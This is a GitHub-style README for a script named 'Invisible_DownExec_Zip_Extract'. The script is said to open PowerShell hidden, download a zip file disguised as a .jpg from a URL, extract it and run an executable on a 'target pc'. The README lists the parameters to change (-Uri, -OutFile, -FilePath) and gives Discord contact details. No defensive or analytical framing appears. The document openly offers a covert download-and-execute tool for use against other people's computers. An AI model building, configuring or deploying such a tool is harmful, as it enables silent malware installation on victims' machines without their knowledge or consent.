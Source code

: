 
# Invisible_DownExec_Zip_Extract

This script invisibly downloads an .zip file from the URL, extracts and runs it on the target pc.



## How to use?

This script is not plug and play. You will have to do the following changes:

- change url for the .zip file "-Uri 'https://yoursite.com/zipfile.jpg'"
- change name of the .zip file "-OutFile 'zipfile.zip'"
- change path of the .exe in the extracted folder "-FilePath '.\zipfile\your_executable.exe'"


## Features

- open powershell invisble
- download .zip from url
- extract .zip file
- run exe from .zip file





## Feedback

If you have any feedback, please reach out to me via Discord "UNC0V3R3D#8662".






## Support

For support, contact me via  Discord "UNC0V3R3D#8662".


## Meta


- If you want to sponsor me on Patreon, the link is on my profile.


